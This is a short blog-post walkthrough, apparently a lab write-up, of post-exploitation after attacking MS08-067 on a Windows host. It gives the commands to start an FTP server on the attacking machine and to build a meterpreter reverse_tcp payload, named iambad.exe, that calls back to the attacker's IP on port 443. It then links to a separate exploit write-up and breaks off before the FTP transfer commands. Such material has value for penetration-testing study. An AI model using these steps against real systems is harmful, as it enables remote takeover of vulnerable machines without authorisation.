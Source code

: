 ```yaml
---
published: false
---
```



I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

**Attacker**:  Start the ftp service on my attacking machine

    service pure-ftpd start

**Attacker**:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
**Victim**:  Exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

**Victim**:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands.  *Note the lack of spaces after the echo command*:.
